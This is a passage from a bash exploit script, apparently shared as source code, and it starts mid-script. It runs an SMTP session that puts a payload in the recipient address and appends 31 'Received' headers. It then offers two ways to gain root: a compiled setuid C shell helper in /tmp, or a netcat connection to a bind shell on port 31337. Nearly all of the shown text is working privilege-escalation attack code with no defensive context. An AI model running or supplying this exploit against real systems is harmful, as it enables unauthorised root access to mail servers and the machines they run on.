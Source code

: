 ```]
	echo "mail from:<>" >&3
	read -u 3 && echo $REPLY
	echo "rcpt to:<$PAYLOAD>" >&3
	read -u 3 && echo $REPLY
	echo "data" >&3
	read -u 3 && echo $REPLY
	for i in {1..31}
	do
		echo "Received: $i" >&3
	done
	echo "." >&3
	read -u 3 && echo $REPLY
	echo "quit" >&3
	read -u 3 && echo $REPLY
}

while [ ! -z "$1" ]; do
	case $1 in
		-m) shift; METHOD="$1"; shift;;
		* ) usage
		;;
	esac
done
if [ -z $METHOD ]; then
	usage
fi

if [ $METHOD = "setuid" ]; then

	echo "Preparing setuid shell helper..."
	echo "main(){setuid(0);setgid(0);system(\"/bin/sh\");}" >/tmp/pwned.c
	gcc -o /tmp/pwned /tmp/pwned.c 2>/dev/null
	if [ $? -ne 0 ]; then
		echo "Problems compiling setuid shell helper, check your gcc."
		echo "Falling back to the /bin/sh method."
		cp /bin/sh /tmp/pwned
	fi
	echo

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF
```